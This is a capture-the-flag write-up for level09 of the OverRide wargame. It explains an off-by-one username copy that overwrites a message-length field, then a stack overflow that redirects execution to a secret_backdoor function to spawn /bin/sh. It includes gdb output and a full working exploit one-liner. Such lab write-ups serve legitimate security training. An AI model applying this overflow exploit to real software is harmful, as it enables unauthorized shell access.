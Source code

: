 After analyzing the program, we see that the `main` call the function `handle_msg`. This function use a struct that contain a 140 char message, a 40 char username, and a number that represent the max length of the message, it should looks like this :
[Message][username][number hard coded to 140]
[140 char][40 char][the number 140]

But the function `set_username` allow use to copy 41 char :
`for ( i = 0; i <= 40 && s[i]; ++i )`
And since we start copying the username at the index `140` (from the start of the struct) we can write until the index `181`

So we can change the low order part of the number and change 140 : `0x8c` to the max we can put `0xff`

Since the max length of the message is set from the number at the index `180` from the start of the struct.
We can now write a message of `255` char long and overflow the struct.
Let's try to put 40 char to fill the buffer and a the char `\xff` at the end to find the offset to `eip` using [wiremask](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)

```
(gdb) r <<< "$(python -c 'print "a" * 40 + "\xff" + "\n" + "Aa0Aa1Aa2Aa3Aa4Aa5Aa
6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
d3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9
Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A"')"
Starting program: /home/users/level09/level09 <<< "$(python -c 'print "a" * 40 +
 "\xff" + "\n" + "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac
0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6A
e7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3
Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A"')"
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa>: Msg @Unix-Dude
>>: >: Msg sent!

Program received signal SIGSEGV, Segmentation fault.
0x0000555555554931 in handle_msg ()
(gdb) x/1w $rsp
0x7fffffffe5c8: 0x37674136
```

Putting this in [wiremask](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) give us an offset of `200`

Now that we have the offset, we get the address of the function `secret_backdoor` that allow use to launch a command

```
(gdb) start
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Temporary breakpoint 2 at 0x555555554aac
Starting program: /home/users/level09/level09
warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000

Temporary breakpoint 2, 0x0000555555554aac in main ()
(gdb) p secret_backdoor
$2 = {<text variable, no debug info>} 0x55555555488c <secret_backdoor>
```

Address of `secret_backdoor` : `0x55555555488c`
In little-endian : `\x8c\x48\x55\x55\x55\x55\x00\x00`

Let's recap
1 part : username (override that we use to overwrite the number) `"a" * 40 + "\xff"`
2 part : Our offset and the address which we will write `"a" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00"`
3 part : the command that will be execute with `system` : `"/bin/sh"`

on assemble le tout : `python -c 'print "a"*40 + "\xff" + "\n" + "a"*200 + "\x8c\x48\x55\x55\x55\x55\x00\x00" + "\n" + "/bin/sh"'`

```Shell
level09@OverRide:~$ python -c 'print "a" * 40 + "\xff" + "\n" + "a" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00" + "\n" + "/bin/sh"' > /tmp/exploit
level09@OverRide:~$ cat /tmp/exploit - | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�>: Msg @Unix-Dude
>>: >: Msg sent!
whoami
end
```
